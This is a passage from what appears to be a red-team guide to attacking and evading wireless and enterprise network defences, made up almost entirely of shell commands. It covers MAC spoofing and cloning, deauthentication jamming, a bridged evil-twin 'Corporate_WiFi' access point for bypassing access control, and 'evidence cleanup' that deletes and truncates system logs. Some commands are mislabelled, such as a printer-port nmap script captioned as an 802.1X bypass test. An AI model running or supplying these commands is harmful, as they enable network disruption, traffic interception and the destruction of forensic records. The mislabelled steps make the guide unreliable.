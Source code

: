 Understanding defensive mechanisms helps in evading detection during red team assessments.

### Evading Wireless Intrusion Detection Systems (WIDS)

```bash
# MAC address spoofing
sudo macchanger -r wlan0

# Targeted, selective jamming
sudo mdk4 wlan0mon d -c 6 -B 00:11:22:33:44:55

# Low-power transmission to avoid detection
sudo iw wlan0mon set txpower fixed 10mBm
```

**Advanced MAC Management:**
```bash
# Clone an existing client's MAC
sudo airodump-ng wlan0mon --bssid 00:11:22:33:44:55 -c 6
sudo macchanger -m AA:BB:CC:DD:EE:FF wlan0
```

### Dealing with Enterprise Security Controls

```bash
# Check for NAC implementation
sudo responder -I eth0 -A

# Test for 802.1X bypass
sudo nmap --script=pjl-ready-message -p 9100 10.0.0.1

# Hunt for misconfigurations
sudo bettercap -iface wlan0
```

**Evading NAC via Rogue AP:**
```bash
# Create bridged evil twin for NAC bypass
sudo airbase-ng -e "Corporate_WiFi" -c 6 wlan0mon
sudo brctl addbr evil-bridge
sudo brctl addif evil-bridge at0
sudo brctl addif evil-bridge eth0
sudo ifconfig evil-bridge up
```

### Wireless Evidence Cleanup

```bash
# Reset wireless interface
sudo airmon-ng stop wlan0mon
sudo ifconfig wlan0 down
sudo iwconfig wlan0 mode managed
sudo ifconfig wlan0 up
sudo service NetworkManager restart

# Clean logs
sudo rm /var/log/syslog.1
sudo truncate -s 0 /var/log/syslog
```

